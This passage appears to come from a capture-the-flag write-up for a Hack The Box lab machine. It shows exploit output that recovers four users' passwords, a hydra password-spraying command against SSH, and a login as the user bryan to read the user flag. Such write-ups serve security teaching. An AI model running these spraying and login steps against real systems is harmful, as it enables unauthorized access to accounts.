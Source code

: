 ```python
root@darkness:~# python3 exploit.py
[+] Got password of bryan: ireallyl0vebubblegum!!!
[+] Got password of jim: stairwaytoheaven
[+] Got password of rita: password01!
[+] Got password of sarah: sarah4evah
```

We now have four sets of credentials.

#### Password-spraying

 Let us use hydra to test the found username-password sets against SSH.

```bash
root@darkness:~# hydra -C wordlist.txt ssh://10.10.10.200
[DATA] max 4 tasks per 1 server, overall 4 tasks, 4 login tries, ~1 try per task
[DATA] attacking ssh://10.10.10.200:22/
[22][ssh] host: 10.10.10.200   login: bryan   password: ireallyl0vebubblegum!!!
1 of 1 target successfully completed, 1 valid password found
```

Seems like we have a valid login with the user bryan.

### Getting user

 Let us use the creds and login via ssh.

```bash
root@darkness:~# ssh bryan@10.10.10.200
bryan@10.10.10.200 password: ireallyl0vebubblegum!!!
Linux unbalanced 4.19.0-9-amd64 #1 SMP Debian 4.19.118-2+deb10u1 (2020-06-07) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Wed Jun 17 14:16:06 2020 from 10.10.10.4
bryan@unbalanced:~$
```

We are able to login via ssh and can read user.txt.

```bash
bryan@unbalanced:~$ cat user.txt 
2de5a***************************
```

## Privesc - Root

Now that we have user, let us enumerate the system to find a privesc-vector to root.

### Enumeration as bryan
